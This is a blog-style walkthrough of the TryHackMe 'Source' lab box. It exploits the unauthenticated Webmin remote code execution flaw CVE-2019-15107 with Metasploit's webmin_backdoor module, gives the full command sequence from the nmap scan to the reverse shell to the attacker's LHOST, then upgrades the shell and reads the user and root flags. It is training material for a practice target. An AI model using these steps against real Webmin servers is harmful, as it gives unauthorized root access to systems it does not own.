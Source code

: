 ```yaml
---
layout: post
title: "Source"
date: 2020-07-11
excerpt: "Walkthrough for Source on TryHackme"
tags: [Source, TryHackMe, Webmin, CVE-2019-15107]
comments: false
---
```




This is an easy box on [TryHackMe](https://tryhackme.com) based on a recent Webmin exploit. Here are the steps to follow to own this box.

First, let's enumerate the box with nmap with **nmap -p- -vv -T4 [machine ip]**.

This shows 2 ports open, 22 (ssh) and 10000 (typically used for webmin)

![Source nmap](/assets/img/Source1.png)

Let's pull up the site on port 10000 with **https://[machine ip]:10000**. This site is using a self signed certificate, so accept the certificate and you will be presented with a webmin login page. A quick google search shows you that the latest CVE for Webmin was CVE-2019-15107, which allows for remote code execution without authentication. This is because of a bug in a parameter in password_change.cgi. Let's launch Metasploit with **msfconsole** and run **search webmin 1.920** one of the results will include an exploit we can use.

![Source Metasploit](/assets/img/Source2.png)

Let's run **use exploit/linux/http/webmin_backdoor** followed by **show options**. You should see a screen similar to the following:

![Source exploit options](/assets/img/Source3.png)

Let's run **SET RHOSTS [machine ip]**, **SET SSL true**, **SET LHOST [your VPN IP] **and then once set, use **run** to attempt the exploit.

![Source run exploit](/assets/img/Source4.png)

You should get a shell within a few moments.

![Source root shell](/assets/img/Source5.png)

Run **whoami** and you will see you have root access.

![Source whoami](/assets/img/Source6.png)

Let's upgrade our shell with **python -c 'import pty; pty.spawn("/bin/sh")'**. Now, let's navigate to the main user home directory with **cd /home** and run **ls** to list the user directories on this server. You will see that there is a user name of **dark** here. 

![Source enumerate user home](/assets/img/Source7.png)

Let's go into his directory with **cd dark** and run **ls -al** to list directory contents. You will see a **user.txt** file, let's run **cat user.txt** and you now have the user flag.

![Source user flag](/assets/img/Source8.png)

Next, let's navigate to /root with **cd /root** and run **ls**. You will see a file named root.txt. Let's view it's contents with **cat root.txt**

![Source root flag](/assets/img/Source9.png)
